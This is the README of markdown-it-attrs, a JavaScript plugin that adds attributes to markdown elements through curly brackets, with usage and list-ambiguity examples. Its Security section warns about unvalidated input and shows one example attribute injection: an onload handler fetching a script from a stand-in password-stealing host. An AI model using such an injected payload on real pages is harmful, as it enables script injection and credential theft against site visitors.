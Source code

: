 # markdown-it-attrs [![Build Status](https://travis-ci.org/arve0/markdown-it-attrs.svg?branch=master)](https://travis-ci.org/arve0/markdown-it-attrs) [![npm version](https://badge.fury.io/js/markdown-it-attrs.svg)](http://badge.fury.io/js/markdown-it-attrs)

Add classes, identifiers and attributes to your markdown with `{.class #identifier attr=value attr2="spaced value"}` curly brackets, similar to [pandoc's header attributes](http://pandoc.org/README.html#extension-header_attributes).

Example input:
```md
# header {.style-me}
paragraph {data-toggle=modal}
```

Output:
```html
<h1 class="style-me">header</h1>
<p data-toggle="modal">paragraph</p>
```

Works with inline elements too:
```md
paragraph *style me*{.red} more text
```

Output:
```html
<p>paragraph <em class="red">style me</em> more text</p>
```

And fenced code blocks:
<pre><code>
```python {data=asdf}
nums = [x for x in range(10)]
```
</code></pre>

Output:
```html
<pre><code data="asdf" class="language-python">
nums = [x for x in range(10)]
</code></pre>
```

## Security
**NOTE!**

`markdown-it-attrs` does not validate attribute input. You should validate your output HTML if security is a concern (use a whitelist).

For example, a user may insert rogue attributes like this:
```js
![](img.png){onload=fetch(https://imstealingyourpasswords.com/script.js).then(...)}
```

## Install

```
$ npm install --save markdown-it-attrs
```


## Usage

```js
var md = require('markdown-it')();
var markdownItAttrs = require('markdown-it-attrs');

md.use(markdownItAttrs);

var src = '# header {.green #id}\nsome text {with=attrs and="attrs with space"}';
var res = md.render(src);

console.log(res);
```

[demo as jsfiddle](https://jsfiddle.net/arve0/hwy17omn/)


## Ambiguity
When class can be applied to both inline or block element, inline element will take precedence:
```md
- list item **bold**{.red}
```

Output:
```html
<ul>
<li>list item <strong class="red">bold</strong></li>
<ul>
```

If you need the class to apply to the list item instead, use a space:
```md
- list item **bold** {.red}
```

Output:
```html
<ul>
<li class="red">list item <strong>bold</strong></li>
</ul>
```

If you need the class to apply to the `<ul>` element, use a new line:
```md
- list item **bold**
{.red}
```

Output:
```html
<ul class="red">
<li>list item <strong>bold</strong></li>
</ul>
```

If you have nested lists, curlys after new lines will apply to the nearest `<ul>` or `<ol>`. You may force it to apply to the outer `<ul>` by adding curly below on a paragraph by its own:
```md
- item
  - nested item {.a}
{.b}

{.c}
```

Output:
```html
<ul class="c">
  <li>item
    <ul class="b">
      <li class="a">nested item</li>
    </ul>
  </li>
</ul>
```

This is not optimal, but what I can do at the momemnt. For further discussion, see https://github.com/arve0/markdown-it-attrs/issues/32.

If you need finer control, [decorate](https://github.com/rstacruz/markdown-it-decorate) might help you.


## Custom blocks
`markdown-it-attrs` will add attributes to any `token.block == true` with {}-curlies in end of `token.info`. For example, see [markdown-it/rules_block/fence.js](https://github.com/markdown-it/markdown-it/blob/760050edcb7607f70a855c97a087ad287b653d61/lib/rules_block/fence.js#L85) which [stores text after the three backticks in fenced code blocks to `token.info`](https://markdown-it.github.io/#md3=%7B%22source%22%3A%22%60%60%60js%20%7B.red%7D%5Cnfunction%20%28%29%20%7B%7D%5Cn%60%60%60%22%2C%22defaults%22%3A%7B%22html%22%3Afalse%2C%22xhtmlOut%22%3Afalse%2C%22breaks%22%3Afalse%2C%22langPrefix%22%3A%22language-%22%2C%22linkify%22%3Atrue%2C%22typographer%22%3Atrue%2C%22_highlight%22%3Atrue%2C%22_strict%22%3Afalse%2C%22_view%22%3A%22debug%22%7D%7D).

Remember to [render attributes](https://github.com/arve0/markdown-it-attrs/blob/a75102ad571110659ce9545d184aa5658d2b4a06/index.js#L100) if you use a custom renderer.

## License

MIT © [Arve Seljebu](http://arve0.github.io/)
